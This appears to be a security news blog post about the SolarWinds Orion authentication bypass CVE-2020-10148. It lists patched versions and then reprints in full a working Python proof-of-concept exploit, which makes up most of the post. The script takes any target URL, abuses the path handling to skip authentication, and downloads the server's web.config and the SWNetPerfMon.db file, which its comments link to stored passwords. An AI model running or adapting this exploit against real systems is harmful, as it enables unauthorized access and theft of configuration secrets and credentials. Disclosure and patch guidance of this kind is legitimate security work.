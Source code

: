 ```yaml
---
layout: post
title:  "SolarWinds CVE-2020-10148 authentication bypass POC released."
date:   2020-12-29 13:48:47 
categories: news
image: /images/solarwinds.png
categories: [one, two]
---
```

Recently a user called `0xsha` on GitHub released a POC for Solarwinds authentication bypass which known as CVE-2020-10148. This bypass could allow a remote attacker to execute API commands which is basically a Remote Code Execution.

This can be achieved by including specific parameters in the `Request.PathInfo` portion of a URI request.

By appending `PathInfo` parameter, attacker can set the `SkipAuthorization` flag, and succesfully make API requests without any authentication.

Current updates about this security bug already released. Organizations should update the latest versions immediately.

These are the latest versions that you can update;

-2019.4 HF 6 
-2020.2.1 HF 2
-2019.2 SUPERNOVA Patch
-2018.4 SUPERNOVA Patch
-2018.2 SUPERNOVA Patch

Here is the POC code:
Credit: [0xsha's Github Page]: https://gist.github.com/0xsha/75616ef6f24067c4fb5b320c5dfa4965

{% highlight python %}
# CVE-2020-10148  (local file disclosure PoC for SolarWinds Orion aka door to SuperNova ? )
# @0xSha 
# (C) 2020 0xSha.io 

# Advisory : https://www.solarwinds.com/securityadvisory
# Mitigation : https://downloads.solarwinds.com/solarwinds/Support/SupernovaMitigation.zip
# Details : https://kb.cert.org/vuls/id/843464

# C:\inetpub\SolarWinds\bin\OrionWeb.DLL
# According to SolarWinds.Orion.Web.HttpModules
# in case of special strings this will set auth to null user and if case of ending with .i18n.ashx it will read the files
'''
private static void OnRequest(object sender, EventArgs e)
		{
			HttpApplication httpApplication = (HttpApplication)sender;
			HttpContext context = httpApplication.Context;
			string path = context.Request.Path;
			if (path.IndexOf("Skipi18n", StringComparison.OrdinalIgnoreCase) >= 0)
			{
				if (context.User == null || !context.User.Identity.IsAuthenticated)
				{
					context.SkipAuthorization = true;
					context.User = new NullUser();
				}
				return;
			}
			if (path.EndsWith(".css", StringComparison.OrdinalIgnoreCase) || path.EndsWith(".js", StringComparison.OrdinalIgnoreCase))
			{
				if (context.User == null || !context.User.Identity.IsAuthenticated)
				{
					context.SkipAuthorization = true;
					context.User = new NullUser();
				}
				LocalizerHttpHandler.RedirectToMe(context, context.Request.Path);
				return;
			}
			if (!path.EndsWith(".i18n.ashx"))
			{
				return;
			}
			string revisedFile = path.Substring(0, path.Length - ".i18n.ashx".Length);
			string path2 = i18nRedirector.RebuildPath(context.Request.QueryString, revisedFile);
			context.RewritePath(path2);
		}

        private static string RebuildPath(NameValueCollection nvc, string revisedFile)
		{
			return "/Orion/i18n.ashx?file=" + revisedFile + "&" + string.Join("&", (from x in nvc.AllKeys
			where x != "file"
			select x into key
			select string.Format("{0}={1}", HttpUtility.UrlEncode(key), HttpUtility.UrlEncode(nvc[key]))).ToArray<string>());
		}
'''


#/usr/local/bin/python3
import requests
import sys


if len(sys.argv) < 2:
    print ("[*] Usage : CVE-2020-10148.py http(s)://target")
    exit(-1)

if not(sys.argv[1].startswith("http://")):
    if not(sys.argv[1].startswith("https://")):
        print("[-] target starts either with http:// or https://")
        exit(-1)


print ("[*] Trying to leak valid file version")
target = sys.argv[1]

# appending .js to always invalid file 
# we don't verify because of self-signed instances 
# not really required but doesn't hurt either. 
leakVersion = requests.get(target+"/Orion/invalid.aspx.js" ,verify=False)  

if(leakVersion.headers["location"]):
    print("[+] Got location header")
    index = leakVersion.headers["location"].index(".i18n.ashx")
    leakedVersion = (leakVersion.headers["location"][index:])
    if (leakedVersion.__contains__("v=")):
        print ("[+] Version seems valid")
    else:
        print("[-] Invalid version")
        exit(-1)
else:
    print("[-] Can't get a valid version")
    exit(-1)

print("[*] Trying to leak web.config file ")
#print(target+"/web.config"+leakedVersion)
leakedConfig = requests.get(target+"/web.config"+leakedVersion, verify=False)
#print(leakedConfig.status_code)

if (leakedConfig.status_code == 200) and len(leakedConfig.text) > 1 :
    print("[+] Target is vulnerable Got the web.config file ")
    outputFile = target.replace("https://","").replace("http://","")+"_web.config"
    configFile = open(outputFile,"w")
    configFile.write(leakedConfig.text)
    configFile.close() 
    print("[+] web.config written to : " + outputFile )
else:
    print("[-] Failed to download web.config target is not vulnerable")
    exit(-1)

 
print("[*] Trying to leak SWNetPerfMon.db file (works only on older versions of orion) ")
# https://support.solarwinds.com/SuccessCenter/s/article/Passwords-that-Orion-stores-locally-on-the-server?language=en_US
# C:\inetpub\SolarWinds\SWNetPerfMon.db
# C:\Program Files (x86)\SolarWinds\Orion\SWNetPerfMon.db

leakedDB = requests.get(target+"/SWNetPerfMon.db"+leakedVersion, verify=False)

if (leakedDB.status_code == 200) and len(leakedDB.text) > 1:
    print("[+] Target is vulnerable Got the SWNetPerfMon.db file ")
   
    outputFile = target.replace("https://","").replace("http://","")+"_SWNetPerfMon.db"
    configFile = open(outputFile,"w")
    configFile.write(leakedDB.text)
    configFile.close() 
    # encrypted ? https://www.atredis.com/blog/2018/10/24/fun-with-the-solarwinds-orion-platform
    print("[+] SWNetPerfMon.db written to : " + outputFile )
else:
    print("[-] Failed to download SWNetPerfMon.db target is on newer version")
    exit(-1)

{% endhighlight %}

References;

https://us-cert.cisa.gov/ncas/current-activity/2020/12/13/active-exploitation-solarwinds-software
https://cyber.dhs.gov/ed/21-01/
